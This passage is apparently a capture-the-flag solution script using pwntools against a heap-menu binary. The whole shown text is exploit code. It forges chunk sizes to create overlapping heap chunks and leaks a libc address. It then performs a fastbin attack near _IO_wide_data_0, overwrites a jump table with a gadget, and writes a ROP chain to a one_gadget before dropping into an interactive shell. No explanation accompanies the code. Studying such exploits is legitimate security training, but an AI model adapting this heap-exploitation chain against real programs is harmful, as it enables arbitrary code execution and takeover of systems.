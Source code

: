 ```Python
    fill(io, 0, 0x30, bytes(0x28) + pwn.p64(((0xa0 + 0xa0) & CHUNK_ALIGNMENT) | PREV_INUSE))
    free(io, 1)
    free(io, 3)  # Will consolidate with 1.
    allocate(io, 0xa0 + 0xa0 + 0xa0 - 0x8)  # 1

    # Now, since we got 1 through calloc, we need to fake a chunk at offset 0x98 before freeing #2
    fill(io, 1, 0xa0, bytes(0x98) + pwn.p64(
        (0x98 + 0x8 + 0x98 + 0x8) & CHUNK_ALIGNMENT | PREV_INUSE))  # must point to chunk 4, since 1 and 3 consolidated.

    # after free, 1 and 2 overlap.
    free(io, 2)
    free_unsortedbin_content_bytearray = dump(io, 1)
    text_offset = 0x12
    libc_leak_bytes = free_unsortedbin_content_bytearray[0xa0 + text_offset:0xa8 + text_offset]
    libc_leak = pwn.u64(libc_leak_bytes)
    # libc_base = libc_leak - 3939160
    libc_base = libc_leak - 3951480  # new libc
    chunk_fd_offset = 0x8
    fastbin_chunk_addr = libc.symbols["_IO_wide_data_0"] + libc_base + 304 + 5 - chunk_fd_offset
    free(io, 5)  # goes into fastbin 0x70
    fill(io, 4, 0x18 + 0x8 + 0x8,
         bytes(0x18) + pwn.p64(((0x70) & CHUNK_ALIGNMENT) | PREV_INUSE) + pwn.p64(fastbin_chunk_addr))
    allocate(io, 0x68)  # 2
    allocate(io, 0x68)  # 3 - this chunk will be located at fastbin_chunk_addr
    get_stack_ptr_gadget_rva = 0x0000000000033ea6  # mov rax, rcx; ret;
    get_stack_ptr_gadget = libc_base + get_stack_ptr_gadget_rva
    jump_table_payload = bytes(3) + pwn.p64(get_stack_ptr_gadget) * 3
    fill(io, 3, len(jump_table_payload), jump_table_payload)

    allocate(io, 0x8)  # 5

    one_gadget_rva = 0x45216  # new libc
    # Now chunk 5 points to the stack.
    one_gadget_address = libc_base + one_gadget_rva
    zero_rax_gadget_rva = 0x000000000008b8c5
    zero_rax_gadget = libc_base + zero_rax_gadget_rva
    rop_payload = bytes(8 * 3) + pwn.p64(zero_rax_gadget) + pwn.p64(one_gadget_address)
    fill(io, 5, len(rop_payload), rop_payload)
    
    io.interactive()


main()

```